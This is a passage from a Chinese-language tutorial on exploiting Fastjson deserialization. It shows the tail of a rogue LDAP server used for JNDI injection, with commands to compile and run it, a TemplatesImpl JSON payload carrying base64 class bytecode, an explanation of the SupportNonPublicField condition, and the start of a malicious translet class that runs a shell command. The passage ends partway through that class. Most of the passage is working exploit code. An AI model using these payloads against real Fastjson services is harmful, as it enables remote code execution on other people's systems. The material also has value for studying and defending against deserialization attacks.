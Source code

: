 ```java
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            } catch (Exception ex) {
                ex.printStackTrace();
            }
        }
    }
}
```

下载需要的依赖的jar包放到同目录：[https://repo1.maven.org/maven2/com/unboundid/unboundid-ldapsdk/4.0.9/unboundid-ldapsdk-4.0.9.jar](https://repo1.maven.org/maven2/com/unboundid/unboundid-ldapsdk/4.0.9/unboundid-ldapsdk-4.0.9.jar)

编译运行：

```java
javac -cp .:unboundid-ldapsdk-4.0.9.jar LDAPServer.java
java -cp .:unboundid-ldapsdk-4.0.9.jar LDAPServer
```

效果也OK

![image.png](FastJson%2025a8cda31fb4807b88fcf6f20f13552f/image%204.png)

`TemplatesImpl` :

base64是恶意类的`class`进行base64编码

```java
{
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["yv66vgAAADQA...CJAAk="],
    "_name": "xcx",
    "_tfactory": {},
    "_outputProperties": {},
}
```

这种情况时系统代码得写成这样：

```java
Object obj = JSON.parseObject(payload, Object.class, Feature.SupportNonPublicField);
```

原因是：

`TemplatesImpl`这个类用来执行代码的关键字段比如`_bytecodes`是私有的，在`fastjson`反序列化时默认只通过`public` 的 `setter` 方法 ，`TemplatesImpl` 类恰好没有为 `_bytecodes` 这些关键字段提供公共的 `setter` 方法。`Feature.SupportNonPublicField` 的作用：明确地告诉Fastjson：在本次反序列化中，我授权你破坏封装性，允许你通过反射等方式直接访问和修改目标的私有字段。

简单说就是不加`Feature.SupportNonPublicField`的话恶意字段就是私有的，读不到，反序列化时用不了。

恶意类：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class TemplatesImpl_poc extends AbstractTranslet {

    static {
        try {
            String[] cmd = {"/bin/sh", "-c", "open -a Calculator"};
            Runtime.getRuntime().exec(cmd);
```